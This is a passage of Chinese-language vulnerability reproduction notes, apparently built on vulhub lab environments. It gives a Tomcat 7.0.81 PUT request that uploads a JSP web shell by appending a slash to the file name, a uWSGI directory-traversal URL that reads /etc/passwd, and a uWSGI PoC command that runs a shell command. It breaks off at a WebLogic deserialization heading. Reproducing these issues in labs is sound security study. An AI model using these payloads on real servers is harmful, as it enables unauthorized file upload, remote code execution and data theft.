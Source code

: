 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload /
```
PUT /222.jsp/ HTTP/1.1

Host: 10.1.1.6:8080

User-Agent: JNTASS

DNT: 1

Connection: close

...jsp shell...
```


# **[uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490](https://vulhub.org/#/environments/uwsgi/CVE-2018-7490/)**

## 漏洞复现

```
http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd
```


# [uWSGI 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/README.zh-cn.md)


## 漏洞复现

使用[poc.py](https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/poc.py)，执行命令python poc.py -u your-ip:8000 -c "touch /tmp/success"：


# **[Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)**


> 访问http://your-ip:7001/即可看到一个404页面，说明weblogic已成功启动。

## 漏洞实现
